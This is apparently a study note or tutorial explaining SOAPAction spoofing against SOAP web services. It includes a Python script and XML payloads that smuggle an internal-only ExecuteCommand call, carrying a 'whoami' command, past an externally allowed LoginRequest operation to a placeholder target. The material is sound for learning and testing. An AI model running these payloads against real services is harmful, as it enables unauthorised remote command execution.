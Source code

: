 SOAP messages towards a SOAP service should include both the operation and the related parameters. This operation resides in the first child element of the SOAP message's body. If HTTP is the transport of choice, it is allowed to use an additional HTTP header called SOAPAction, which contains the operation's name, in which the receiving web service can identify the operation within the SOAP body through this header without parsing any XML.

If a web service considers only the SOAPAction attribute when determining the operation to execute, then it may be vulnerable to SOAPAction spoofing.

The following is an example of a SOAPAction operation:
```xml
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>
```
Below is its corresponding parameters:
```xml
<s:element name="ExecuteCommandRequest">
	<s:complexType>
		<s:sequence>
			<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
		</s:sequence>
	</s:complexType>
</s:element>
```

Notice that there is a `cmd` parameter. The following Python script can be used to issue requests to execute the `whoami` command, in this example.
```python
import requests

payload = """
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
<soap:Body>
<ExecuteCommandRequest xmlns="http://tempuri.org/">
<cmd>whoami</cmd>
</ExecuteCommandRequest>
</soap:Body>
</soap:Envelope>
"""

req = requests.post(
	'http://target-website.com/wsdl',
	data=payload,
	headers={"SOAPAction": '"ExecuteCommand"'}
)

print(req.content)
```

When we execute this script, it will throw an error as the `ExecuteCommand` action is only allowed internally. However, not all is lost, we can still try for SOAPAction spoofing attack. To do this, we will replace our `payload` variable's value with the following:
```
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
<soap:Body>
<LoginRequest xmlns="http://tempuri.org/">
<cmd>whoami</cmd>
</LoginRequest>
</soap:Body>
</soap:Envelope>
```
In our new payload, we did the following:
- We specify `LoginRequest` in `<soap:Body>` instead, since this operation is allowed externally, our request will go through.
- Inside the `LoginRequest`, we will specify the parameters of `ExecuteCommandRequest` because our aim is to achieve code execution.
- We specify the blocked operation (`ExecuteCommand`) in the SOAPAction header